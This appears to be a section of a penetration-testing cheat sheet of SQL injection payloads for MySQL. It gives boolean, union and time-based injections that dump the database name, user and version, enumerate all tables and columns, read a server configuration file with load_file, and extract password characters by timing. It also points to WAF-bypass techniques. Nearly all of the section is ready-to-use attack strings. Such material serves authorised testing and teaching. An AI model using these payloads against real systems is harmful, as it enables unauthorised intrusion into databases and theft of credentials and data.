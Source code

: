 ### SQL Injection

**The following payloads were tested on MySQL database. Note that MySQL requires a whitespace character between the comment symbol and the next character.**

If you need to URL encode the whitespace character, use `%20` or `+` instead.

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash, or period.

**Always make sure to properly close the surrounding code.**

Read this OWASP [article](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) to learn how to bypass WAF.

---

Boolean-based SQLi:

```fundamental
' OR 1=1-- 

' OR 1=2-- 
```

---

Union-based SQLi:

```fundamental
' UNION SELECT 1,2,3,4-- 

' UNION SELECT NULL,NULL,NULL,NULL-- 

' UNION SELECT 1,concat_ws('|',database(),current_user(),version()),3,4-- 

' UNION SELECT 1,concat_ws('|',table_schema,table_name,column_name,data_type,character_maximum_length),3,4 FROM information_schema.columns-- 

' UNION SELECT 1,load_file('..\\..\\apache\\conf\\httpd.conf'),3,4-- 
```

If using, e.g., `1,2,3,4` does not work, try using `NULL,NULL,NULL,NULL` respectively.

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the SQL query and to figure out which of them are shown back to the user.

Another way to determine the exact number of columns is by using, e.g., `' ORDER BY 1-- `, where `1` is the column number used for sorting - incrementing it by one on each try.

---

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE user() WHEN 'root@127.0.0.1' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(),1,1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM users WHERE id = 1)-- 

' AND IF(version() LIKE '5%',sleep(2),sleep(0))-- 
```
